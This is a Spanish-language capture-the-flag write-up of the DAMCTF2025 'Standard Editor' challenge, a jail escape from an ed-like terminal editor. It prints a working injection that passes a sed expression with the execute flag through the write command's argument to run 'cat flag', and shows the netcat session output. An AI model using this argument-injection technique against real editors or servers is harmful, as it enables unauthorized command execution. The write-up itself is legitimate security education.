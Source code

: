 ```yaml
---
title: Standard Editor - DAMCTF2025
author: Kesero
description: Reto basado escapar de un programa de apuntes por terminal mediante command injections.
date: 2025-05-11 10:00:00 +0000
categories: [Writeups Competiciones Internacionales, Miscelánea]
tags: [Misc, Writeups, Dificultad - Media, Misc - Jail]
pin: false
math: true
mermaid: true
image:
  path: https://raw.githubusercontent.com/k3sero/Blog_Content/refs/heads/main/Competiciones_Internacionales_Writeups/2025/Damctf2025/Misc/Standard-Editor/img/2.png
  lqip: 
  alt: 
comments: true
---
```

Autor del reto: `evan`

Dificultad: <font color=orange>Media</font>

## Enunciado

"Joel Fagliano has nothing on me. (flag is all caps)"

## Archivos

En este reto, tenemos el siguiente archivo.

- `conexión por netcat`: Contiene la conexión directa con el servidor del reto.

Archivos utilizados [aquí](https://github.com/k3sero/Blog_Content/tree/main/Competiciones_Internacionales_Writeups/2025/Damctf2025/Misc/Standard-Editor).

## Analizando el reto

Al conectarnos por netcat podemos ver el siguiente mensaje.

```
    ┌──(kesero㉿kali)-[~]
    └─$ nc standard-editor.chals.damctf.xyz 6733

    [Sun May 11 20:22:15 UTC 2025] Welcome, editor!
    Feel free to write in this temporary scratch space.
    All data will be deleted when you're done, but files will
    first be printed to stdout in case you want to keep them.
    
    a
    ?
    b
    ?
    c
    ?

```

## Solver

En este reto tendremos que realizar un command injection a través del editor simulado que nos dan en el reto. Para ello como siempre en estos casos, tendremos que probar, probar y probar todo lo posible para observar cómo se comporta el servidor.

La primera suposición que podemos realizar es que el editor mencionado se trata de un editor de línea de comandos personalizado, emulando algo parecido al programa `ed`.

Por ejemplo, si queremos añadir líneas en este tipo de editores, con el comando `a` significa `append` y podemos añadir líneas al editor. Además si queremos finalizar la entrada de líneas, lo realizaremos mediante `.`. De forma parecida, el comando `w` el cual nos permite ejecutar comandos.

Además, al probar, observamos que las expresiones regulares están permitidas ya que observaremos que estamos habilitados para evaluar expresiones de sustitución.

Después de muchos intentos damos con el código para leer la flag. 

```
a
.
w --expression=s@.*@cd\ ..\;\ cd\ ..\;\ cat\ flag@e
a
bruh
.
w f
q
```
Vamos a explicarlo línea por línea.

1. `a` empezamos a añadir líneas.
2. `.` finalizamos la entrada de líneas
3. `w --expression=s@.*@cd\ ..\;\ cd\ ..\;\ cat\ flag@e`. Para comenzar, `w` permite escribir, `--expression=` nos permite evaluar y ejecuar a continuación. Por otro lado dentro de la expresión tenemos `s@.*@cd\ ..\;\ cd\ ..\;\ cat\ flag@e`. En la cual `s@.*@...@e` es una expresión de sustitución de `sed` con la flag `e`, que ejecuta el resultado como un comando de sistema.
Posteriormente, `.*` fuerza a capturar cualquier línea dentro del archivo. Acto seguido se sustituye por `cd ..; cd ..; cat flag` que cambia dos niveles arriba en el sistema de archivos y luego ejecuta `cat flag`

4. `a, bruh, .` Con esta combinación forzamos a que se ejecute el procesamiento de la expresión anterior.

5. `w f` Finalmente grabamos el contenido con `f` y guardamos el contenido. De esta manera, forzamos al sistema que interprete la expresión con ejecución.

6. `q` Por último, salimos del programa.

Realizando los pasos anteriores, obtenemos la flag.

```
  ┌──(kesero㉿kali)-[~]
  └─$ nc standard-editor.chals.damctf.xyz 6733

  [Mon May 12 16:19:16 UTC 2025] Welcome, editor!
  Feel free to write in this temporary scratch space.
  All data will be deleted when you're done, but files will
  first be printed to stdout in case you want to keep them.
  a
  .
  w --expression=s@.*@cd\ ..\;\ 
  cd\ ..\;\ cat\ flag@e
  0
  a
  bruh
  .
  w f
  5
  q
  sed: can't read s@vi\|vim\|emacs\|nano\|vscode\|notepad[+][+]\|code\|zed\|atom\|word\|office\|docs\|o365\|copilot\|cursor@ed(1)@ig: No such file or directory
  dam{is_it_w31rd_that_i_u53_ed(1)_4_fun?}
```

## Flag
`dam{is_it_w31rd_that_i_u53_ed(1)_4_fun?}`